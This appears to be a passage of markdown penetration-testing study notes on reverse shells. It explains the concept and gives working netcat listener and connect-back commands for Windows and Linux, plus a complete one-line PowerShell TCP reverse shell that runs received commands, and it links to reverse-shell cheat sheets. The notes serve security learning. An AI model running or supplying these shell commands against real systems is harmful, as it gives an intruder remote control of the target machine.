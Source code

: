 ### Reverse Shells

🗒️ **Reverse Shell** - a remote shell where _the target connects to a listener running on the attacker's system_ (**`e.g.`** Metasploit Meterpreter).

* _Reverse shells advantages_:
  * The connection can be initialized without `netcat` too
  * Outgoing traffic may not be blocked by firewalls
* _Reverse shells issues_:
  * used exploit have to know the attacker's IP
  * the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```

#### Reverse Shell without Netcat

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)

📌 [Reverse Shell Generator](https://www.revshells.com/)

e.g.

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Exploitation Frameworks
